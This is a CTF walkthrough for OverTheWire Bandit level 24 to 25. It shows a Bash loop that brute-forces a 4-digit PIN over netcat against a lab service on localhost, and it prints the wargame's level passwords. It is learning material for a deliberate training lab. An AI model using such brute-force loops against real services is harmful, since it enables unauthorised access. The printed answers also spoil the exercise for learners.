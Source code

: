 # Bandit Level 24 ➔ Level 25

## 🧠 Goal:
The password for the next level is protected behind a service running on **localhost:30002**.  
You must:
1. Connect to the service using `netcat`.
2. Provide the password from the previous level.
3. Then brute-force a 4-digit PIN until you get the correct one.

---

## 🔐 Login:
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

## 🛠️ Commands Used:
```bash
#!/bin/bash
for pin in {0000..9999}; do
  echo "Trying PIN: $pin"
  response=$(echo -e "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" | nc localhost 30002)
  echo "$response" | grep -q "Correct!" && echo "✔️ Success: $pin" && echo "$response" && break
done
chmod +x brute.sh
./brute.sh
```

## 🧾 Password Found:
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

## 📘 What I Learned:
- How to write a simple brute-force loop in Bash.
-	How to interact with remote services via nc (netcat).
-	That sometimes password + PIN systems can be tested via automation.
